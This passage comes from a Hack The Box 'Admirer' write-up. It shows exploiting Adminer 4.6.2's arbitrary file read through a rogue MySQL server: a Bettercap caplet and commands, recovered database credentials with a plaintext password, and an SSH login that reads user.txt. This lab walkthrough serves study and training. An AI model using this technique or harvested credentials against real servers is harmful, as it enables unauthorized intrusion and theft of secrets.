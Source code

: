 The Adminer dashboard is accessible at
`http://10.10.10.187/utility-scripts/adminer.php`. I tried the different
credentials I had collected so far but nothing worked. Then, I checked the known
vulnerabilities of Adminer v4.6.2 (the version number is indicated on the login
page) and it turned out that [there is a way to read arbitrary files on the
remote machine][adminer-exploit-blog-post].

The attack takes place in 2 steps:

* Instead of trying to log in the local database of the remote system, an
  attacker can log in a public RDBMS they own.
* Then, the attacker can execute `LOCAL INFILE` SQL queries to read arbitrary
  files on the remote filesystem.

[Bettercap][bettercap] has a [module to set up a rogue MySQL
server][bettercap-mysql-module] to read files from the victim using the
technique previously mentioned. To do so, I created a [caplet
script][bettercap-caplets] with the following content:

```
# Replace with your HTB VPN IP address.
set mysql.server.address 10.10.14.17
set mysql.server.port 3306
# The file you want to read from the remote machine.
set mysql.server.infile ../index.php
mysql.server on
```

And to start Bettercap:

```
# bettercap -caplet adminer-mysql.cap
```

Before going further, make sure to accept incoming connections from the remote
server. If you are on a Linux-based system like myself, add this Netfilter rule
with `iptables`:

```
# iptables -I INPUT 1 -s 10.10.10.187 -j ACCEPT
```

To start the attack, I just needed to ask Adminer to connect to my rogue server
via the login form. Since I used a fake MySQL server, I could enter any
username, password and database name I wanted. It worked well and I could
retrieve the actual MySQL credentials used by the PHP application:

```php
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
```

And these credentials are the ones of an actual UNIX account!

```
$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password:
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
```

 [adminer-exploit-blog-post]: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f "Adminer Script Results to Pwning Server?, Private Bug Bounty Program"
 [bettercap]: https://www.bettercap.org/ "Bettercap Official Website"
 [bettercap-caplets]: https://www.bettercap.org/usage/#caplets "Bettercap - Caplets"
 [bettercap-mysql-module]: https://www.bettercap.org/modules/ethernet/servers/mysql.server/ "Bettercap MySQL module"
 [htb]: https://hackthebox.eu/ "Hack The Box - Main Website"
 [kali-hydra]: https://tools.kali.org/password-attacks/hydra "Kali Tools - Hydra Package Description"
 [nmap-ftp-anon]: https://nmap.org/nsedoc/scripts/ftp-anon.html "Nmap script ftp-anon"
 [python-path]: https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH "Python 3 Documentation - PYTHONPATH"